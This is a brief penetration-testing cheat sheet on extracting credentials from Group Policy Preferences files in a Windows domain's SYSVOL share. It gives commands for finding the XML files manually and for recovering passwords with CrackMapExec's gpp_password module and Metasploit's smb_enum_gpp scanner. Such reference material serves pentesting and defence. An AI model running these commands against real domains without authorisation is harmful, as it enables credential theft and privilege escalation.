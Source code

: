 # Group Policy Preferences

### Description

Unsecured credentials in Group Policy Preferences (GPP) can be an easy way to obtain credentials and escalate privileges. GPP's are stored in SYSVOL on domain controllers. However, the real kicker is that any domain user can view the SYSVOL share, obtain the password, and decrypt it within seconds.

### Tactics

#### Enumerating Credentials Directly on the SYSVOL Share

```bash
dir /s * .xml
```

#### Enumerating Credentials Remotely from SYSVOL

```bash
dir /s \\[FQN]\SYSVOL\[FQDN\ | more
```

#### Enumerating Credentials using CrackMapExec

```bash
crackmapexec smb [IP] -u [USERNAME] -p [PASSWORD] -M gpp_password
```

#### Enumerating Credentials using Metasploit

```bash
use auxiliary/scanner/smb/smb_enum_gpp
set rhosts [IP_Addresses]
set SMBUser [USERNAME]
set SMBPass [PASSWORD]
```
